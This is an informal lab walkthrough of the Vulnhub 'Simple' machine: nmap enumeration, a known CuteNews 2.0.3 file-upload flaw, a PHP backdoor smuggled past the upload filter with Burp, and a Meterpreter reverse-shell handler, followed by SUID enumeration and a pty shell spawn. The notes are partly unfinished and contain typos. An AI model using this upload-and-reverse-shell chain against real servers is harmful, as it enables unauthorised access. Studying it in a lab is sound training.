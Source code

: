 # Vulnhub Simple

## Enumeration
`nmap -sC -sV -Pn <ip>`

Sc : default scripts

sV : Default Versions

Pn : Skip Host discovery

Result: 

```
80/tcp open  http    syn-ack Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 759585A56089DB516D1FBBBE5A8EEA57
|_http-title: Please Login / CuteNews
```

## CuteNews

It seems like there is an Apache server running. 

There was a login form and it was running on Cutenews 2.0.3
  
I ran dirb just in case, but nothing special was found. 
  
So, I searched for known vulnerabilities with cutenews 2.0.3
  
`searchsploit cutenews`
  
Result:
  
`CuteNews 2.0.3 - Arbitrary File Upload                            | php/webapps/37474.txt`

[exploit database](https://www.exploit-db.com/exploits/37474)

  
I found out cutenews 2.0.3 has a file upload vulnerability that can lead to reverse shell.

First, attacker upload malicious file through file upload function. Then, execute the malicious file with the listener pre-running. Lastly, attacker has a shell opened. 
  
This known exploit was pretty old, and "tamper data" add on from firefox was not working well for me. 
  
I decided to work with Burpsuite instead.
  
## Creating PHP backdoor
  
I got help from [hackingarticles](https://www.hackingarticles.in/web-penetration-testing-tamper-data-firefox-add/) when writing the code. 

Basically, it is about creating php shell code using msfvenom and multi handler. I should study more about this area. 
  
After creating the file `payload.php.jpg` ,turn burpsuite on.
  
From the avatar change page, select the `payload.php.jpg` file and click submit button with the burp intercept on.
  
Burp will intercept and now change the `payload.php.jpg` into `payload.php`.
  

  
  ## sd
  Open the ph file from the <ip>uploads. 
  
  Have the msfconsole pre-ready for connection. 
  
  ``use ecploit/multi/handler
  set payload php/meterpreter/reverse_tcp
  set ...
  run
  ``

  
  `find / -perm -u=s -type f 2>/dev/null`
  
  `python -c 'import pty; pty.spawn("/bin/sh")'`
